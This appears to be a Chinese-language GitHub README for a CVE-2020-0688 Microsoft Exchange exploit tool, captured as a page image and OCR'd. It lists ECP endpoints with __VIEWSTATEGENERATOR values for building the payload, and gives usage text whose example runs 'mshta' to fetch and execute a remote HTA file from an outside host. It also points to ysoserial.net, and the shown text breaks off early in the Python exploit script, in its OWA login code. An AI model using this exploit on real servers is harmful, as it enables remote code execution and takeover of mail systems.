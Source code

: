 ```
/ecp/SMS/TextMessaging.slab?showhelp=false&
__VIEWSTATEGENERATOR=FD338EE0

/ecp/TroubleShooting/MobileDevices.slab?showhelp=false&
__VIEWSTATEGENERATOR=FD338EE0

/ecp/Customize/Regional.aspx?showhelp=false&
__VIEWSTATEGENERATOR=9097CD08

/ecp/MyGroups/SearchAllGroups.slab?pwmcid=3&ReturnObjectType=1
__VIEWSTATEGENERATOR=FD338EE0

/ecp/Security/BlockOrAllow.aspx?showhelp=false&
__VIEWSTATEGENERATOR=362253EF 
```

# 全自动（支持加密）

```
CVE-2020-0688_EXP Auto trigger payload

python3 CVE-2020-0688_EXP.py -h  

usage: CVE-2020-0688_EXP.py [-h] -s SERVER -u USER -p PASSWORD -c CMD [-e]  

optional arguments:  
  -h, --help            show this help message and exit  
  -s SERVER, --server ECP Server URL Example: http://ip/owa  
  -u USER, --user USER  login account Example: domain\user  
  -p PASSWORD, --password PASSWORD  
  -c CMD, --cmd CMD     Command u want to execute  
  -e, --encrypt         Encrypt the payload  
example:

python CVE-2020-0688_EXP.py -s https://mail.x.com/ -u user@x.com -p passwd -c "mshta http://1.1.1.1/test.hta" 
```

> 需要把`ysoserial.exe` 放当前目录
> 
> [https://github.com/ianxtianxt/ysoserial.net/](https://github.com/ianxtianxt/ysoserial.net/)

```
# encoding: UTF-8
import requests
import readline
import argparse
import re
import sys
import os
import urllib3
from urllib.parse import urlparse
from urllib.parse import quote
urllib3.disable_warnings()

ysoserial_path = os.path.abspath(os.path.dirname(__file__))+"/ysoserial-1.32/"
session = requests.Session()

def get_value(url, user, pwd):
    print("[*] Tring to login owa...")
    tmp = urlparse(url)
    base_url = "{}://{}".format(tmp.scheme, tmp.netloc)
    paramsPost = {"password": ""+pwd+"", "isUtf8": "1", "passwordText": "", "trusted": "4",
```